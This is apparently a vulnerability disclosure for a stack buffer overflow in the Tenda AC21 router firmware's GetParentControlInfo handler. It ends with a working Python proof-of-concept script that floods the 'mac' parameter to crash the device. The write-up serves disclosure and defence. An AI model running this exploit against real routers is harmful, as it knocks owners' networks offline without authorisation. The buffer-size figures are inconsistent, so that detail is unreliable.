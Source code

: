 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC21（AC21V1.0re_V16.03.08.16）
## Overview
There is a stack-based buffer overflow vulnerability in the Tenda Wi-Fi 5 Router AC21 device running the firmware version AC21V1.0re_V16.03.08.16. Due to the lack of restrictions on certain parameters in the GetParentControlInfo function and the absence of boundary checks, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint: /goform/GetParentControlInfosub_433BE4formDefineTendDa.

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd. ([https://www.tenda.com.cn](https://www.tenda.com.cn))
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC21 device
+ **Affected Version**: AC21V1.0re_V16.03.08.16
+ **Attack Vector**: Exploit functions without boundary checks and with insufficient parameter restrictions, using carefully constructed payloads to cause a stack-based buffer overflow
+ **Impact**:
    - Denial of Service (Dos)
+ **Affected Component**: /goform/GetParentControlInfo, sub_433BE4, formDefineTendDa
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/3742](https://www.tenda.com.cn/material/show/3742)

## Discovery
This vulnerability was discovered by analyzing the firmware (US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin). The following call chain exists in the squashfs-root/bin/httpd file:  
main → sub_433BE4 → formDefineTendDa → GetParentControlInfo

s is a buffer allocated via malloc(0x254u), with a size of 0x254 bytes and initialized to all 0s. The target address is s + 2, meaning data copying starts from the 3rd byte of s, and the remaining available space is 604 - 2 = 602 bytes. Var is the external input obtained via websGetVar(a1, "mac", &unk_4D999C) (it is the value of the user-controllable "mac" parameter). strcpy will continuously copy characters from Var until encountering \0, without verifying at all whether the target buffer can accommodate all the data. As external input, the length of Var may exceed 602 bytes.

Therefore, carefully designing a payload at the interface path /goform/GetParentControlInfo can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 512000
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.190.239/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use qemu to emulate the httpd extracted from US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin (note that this file is for the mips little-endian architecture, and IDA needs to be used to modify httpd to adapt to the emulation environment).

As shown in the figure below, the emulation is successful.

Use this script to trigger the stack overflow.

#### Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint. 
